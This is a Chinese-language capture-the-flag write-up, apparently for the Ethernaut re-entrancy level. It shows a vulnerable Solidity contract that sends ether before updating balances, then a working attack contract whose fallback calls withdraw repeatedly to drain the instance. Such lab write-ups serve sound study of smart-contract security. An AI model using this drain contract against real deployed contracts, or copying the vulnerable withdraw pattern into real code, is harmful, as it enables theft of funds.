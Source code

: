 # Re-entrancy

## 题目

目标：这一关的目标是偷走合约的所有资产

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## 分析

重入，老朋友了，具体原理看这里【博客=>09.安全审计=>重入攻击系列】，不做多阐述。

首先我们查看这个合约有多少钱：0.001ETH，即1000000000000000Wei。

![image-20221223134115654](10.Re-entrancy/image-20221223134115654.png)

那么按照老套路写代码进行攻击

## 攻击合约

```solidity
contract Hack{
    Reentrance public reentrance = Reentrance(0x5435b127B6F9404D2DDd7BE6Ebb61719BF990DFC);

    function attack() public payable{
    	//1.设置msg.value=1000000000000000Wei
    	//2.这一步将存钱1000000000000000Wei
        reentrance.donate.value(0.001 ether)(address(this));
        //3.然后取钱1000000000000000Wei
        reentrance.withdraw(1000000000000000);
    }

    fallback() external payable {
    	//4.进入fallback重入
        if (address(reentrance).balance >= 0.001 ether) {
      	  reentrance.withdraw(1000000000000000);
      }
    }

}
```

## 做题

获取实例，部署，攻击。记得attack的时候, msg.value设置为1000000000000000Wei

![image-20221223142424256](10.Re-entrancy/image-20221223142424256.png)

通过

![image-20221223141650766](10.Re-entrancy/image-20221223141650766.png)
